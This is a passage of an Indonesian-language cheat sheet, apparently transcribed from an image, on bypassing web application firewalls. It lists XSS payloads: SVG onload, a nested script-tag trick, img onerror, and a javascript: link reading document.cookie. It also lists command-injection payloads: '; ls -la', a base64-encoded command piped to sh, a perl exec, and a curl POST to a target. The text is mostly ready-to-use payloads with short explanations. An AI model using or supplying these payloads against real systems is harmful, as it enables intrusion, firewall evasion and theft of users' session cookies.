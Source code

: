 Jika <script> diblokir, gunakan SVG dengan event handler.
✅ Payload XSS dengan SVG:
```
<svg onload=alert(1)>
```
2.3. Bypass dengan JavaScript Obfuscation

Mengacak payload agar tidak dikenali sebagai serangan.
✅ Payload XSS Obfuscated:
```
<scr<script>ipt>alert(1)</scr<script>ipt>
```
2.4. Bypass dengan onerror()

Jika input menerima gambar, kita bisa menyisipkan event handler onerror untuk mengeksekusi JavaScript.
✅ Payload XSS menggunakan gambar:
```
<img src=x onerror=alert(1)>
```
2.5. DOM-Based XSS

Menggunakan JavaScript untuk mengeksekusi kode berbahaya dari parameter URL.
✅ Contoh payload:
```
<a href="javascript:alert(document.cookie)">Klik Disini</a>
```

---

# 🔥 3. Remote Code Execution (RCE) Bypass

RCE memungkinkan penyerang mengeksekusi perintah sistem secara langsung di server. Jika WAF memblokir perintah langsung, kita bisa menggunakan encoding atau obfuscation.

## 📌 Teknik Bypass RCE

3.1. Bypass dengan Base64

✅ Payload tanpa encoding:
```
; ls -la
```
✅ Payload Base64 Encoded:
```
echo bHMgLWxhCg== | base64 -d | sh
```
3.2. Bypass dengan Perl Command Execution

✅ Payload dengan Perl:
```
perl -e 'exec("ls -la")'
```
3.3. Bypass dengan Curl Command

✅ Payload dengan curl:
```
curl -d "cmd=ls" http://target.com/execute
```

---